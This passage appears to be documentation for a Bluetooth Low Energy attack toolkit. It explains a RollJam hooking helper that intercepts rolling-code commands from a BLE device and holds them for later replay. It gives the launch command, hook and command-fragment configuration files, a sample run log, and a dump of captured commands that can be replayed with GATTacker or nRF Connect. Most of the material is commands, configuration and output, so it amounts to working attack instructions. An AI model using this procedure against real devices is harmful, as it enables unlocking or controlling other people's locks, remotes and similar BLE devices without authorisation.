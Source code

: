 Example hook functions.

## RollJam hooking helper

Some devices use special commands that couldn't be understand without knowing their secrets, but also make the use of some kind of rolling code mecanisms to prevent against replaying attacks.

To play with rolling code attacks in BLE, as it's the case for RollJam attack against remote controls using rolling code, a generic scripts hooking helper ``rolljam.js`` has been provided here.

To use it, you can launch the ``advertise.js`` script as follows with the ``-w`` command after configuring the devices characteristics, and configuring also the ``RollJam.js`` commands configuration files:

```bash
# node advertise.js -a devices/********ba6d_********BA6D-.adv.json -s devices/*******ba6d.srv.json -w rolljam.js 
[...]
 <<<<<<<<<<<<<<<< INITIALIZED >>>>>>>>>>>>>>>>>>>> 
Client connected: **:**:**:**:ce:78
>> Subscribe: **f0 -> **f2
>> Subscribe: **f0 -> **f3
>> Write:  **f0 -> **f1 : 3984****************************8ccd
[RollJam] Keeping 1st cmd key part 1: 3984****************************8ccd
[RollJam] Playing incomplete cmd: 3984
   ******ba6d:**f0 confirmed subscription state: **f2
   ******ba6d:**f0 confirmed subscription state: **f2
[...]
>> Write:  **f0 -> **f1 : 25***********************************2e
[RollJam] Keeping 1st cmd key part 2: 25***********************************2e
[RollJam] Playing incomplete cmd: 25
[...]
[RollJam] Keeping 2nd cmd key part 2: 25***************************ed
[RollJam] Playing 1st cmd key instead, part 2: 25******************************2e
Client disconnected: **:**:**:**:ce:78
```

To add the hook, please add the following lines in the characteristics you want to interact with:

```bash
{
        "uuid": "**f0",
        "characteristics": [
            {
                "uuid": "**f1",
                "properties": [
                    "read",
                    "write"
                ],
                "value": "0000000000000000000000000000000000000000",
                "descriptors": [
                    {
			[...]
                    }
                ],
                "hooks": {
                    "dynamicWrite": "RollJamWrite"
                },

```

To configure the command to hook, you can edit the ``RollJam.json`` in the ``hookFunctions`` directory as follows:

```bash
{ "commands" : 
	{ "3984" : { # substring of the command
			"to" : "3984", # to replace with this command (exemple with imcomplete command)
			"number" : 1 # command part 1
	},
	  "25" : {
	  		"to" : "25",
			"number" : 2 # command part 2
	  }
	}
}
```

The ``number`` field is an index of the command part/fragmentation number.

The 2nd session commands are kept in the ``dump/<device mac>.rolljam`` file as follows:

```bash
# cat dump/*********ba6d.rolljam 
2018.07.09 10:49:52.052 | < W | **f0 | **f1 | 39***********************************be
2018.07.09 10:49:53.514 | < W | **f0 | **f1 | 25***********************************56
```

And could be replayed after with GATTacker, or readapted for nRF connect with ``gattacker2nrf.js`` to kept them as macros in the application to be replayed also.
